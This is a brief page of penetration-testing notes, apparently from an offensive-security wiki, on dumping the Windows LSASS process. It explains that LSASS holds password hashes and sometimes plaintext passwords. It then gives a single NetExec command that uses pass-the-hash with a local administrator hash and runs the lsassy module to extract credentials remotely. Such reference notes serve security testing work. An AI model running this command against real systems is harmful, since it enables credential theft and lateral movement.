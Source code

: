 # Dumping LSASS

<details>

<summary>What is LSASS ?</summary>

**L**ocal **S**ecurity **A**uthority **S**ubsystem **S**ervice (LSASS) is the process on Microsoft Windows that **handles all user authentication**, **password changes**, **creation of access tokens**, and **enforcement of security policies**.&#x20;

This means the **process stores multiple forms of hashed passwords**, and in some instances even stores plaintext user passwords.

</details>

```bash
nxc smb $ip -u $local_admin -H $hash -M lsassy --local-auth
```

## More

{% embed url="https://pentestlab.blog/tag/lsass/" %}
